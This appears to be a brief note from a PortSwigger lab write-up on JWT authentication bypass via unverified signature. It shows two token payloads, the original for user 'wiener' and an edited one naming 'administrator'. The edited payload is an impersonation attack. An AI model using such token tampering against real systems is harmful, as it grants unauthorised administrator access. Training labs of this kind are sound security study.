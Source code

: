 # JWT


### Lab: JWT authentication bypass via unverified signature


Payload
```
{"iss":"portswigger","exp":1760963935,"sub":"wiener"}

{"iss":"portswigger","exp":1760963935,"sub":"administrator"}



```
